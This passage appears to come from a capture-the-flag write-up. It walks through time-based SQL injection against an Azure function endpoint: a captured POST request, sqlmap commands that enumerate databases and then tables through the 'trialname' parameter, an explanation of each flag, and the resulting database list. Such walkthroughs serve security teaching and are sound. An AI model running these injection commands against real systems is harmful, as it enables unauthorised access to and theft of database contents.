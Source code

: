 ```bash
POST /api/HttpPharSightTrigger01 HTTP/1.1
Host: pharsight-dev.azurewebsites.net
User-Agent: curl/8.5.0
Accept: */*
Connection: keep-alive
Content-Length: 52
Content-Type: application/x-www-form-urlencoded

{"trialname": "test"}
 
```

Run SQLMap with the following command:

```bash
sqlmap -r flag3sql.r --batch --technique=T -p "trialname" --skip-urlencode --dbs
```

> Note - we’re using time-based injection so the following SQLMap activities may take a while.

Also note - multi-threading (`--threads`)is not recommended for time-based attacks as it can lead to inaccurate results. If you do use multithreading, SQLMap will disable it by default then you use the `--batch` flag.

If you quit SQLMap and come back to it later, you can find previous activity under `<user path>/.local/share/sqlmap/output/pharsight-dev.azurewebsites.net/log`
> 

Explanation of the flags used:

`--batch` - skips user prompts.

`--technique` - only use technique specified. In this case `-T` or time-based.

`-p` - parameter to target.

`--skip-urlencode` - skip URL encoding.

`--dbs` - enumerate databases.

Let’s look at the result:

![img]({{ '/assets/images/flag3/Untitled 29.png' | relative_url }}){: .center-image }

As you can see, three databases were found:

```bash
available databases [3]:
[*] master
[*] pharsight-srv-1
[*] tempdb
```

I didn’t find anything useful in `master` or `tempdb`. Let’s focus on `pharsight-srv-1` . We have the database we’re going to target, now we need to dump the tables in the database. We can do that with:

```bash
sqlmap -r flag3sql.r --batch --technique=T -p "trialname" --skip-urlencode -D pharsight-srv-1 --tables
```
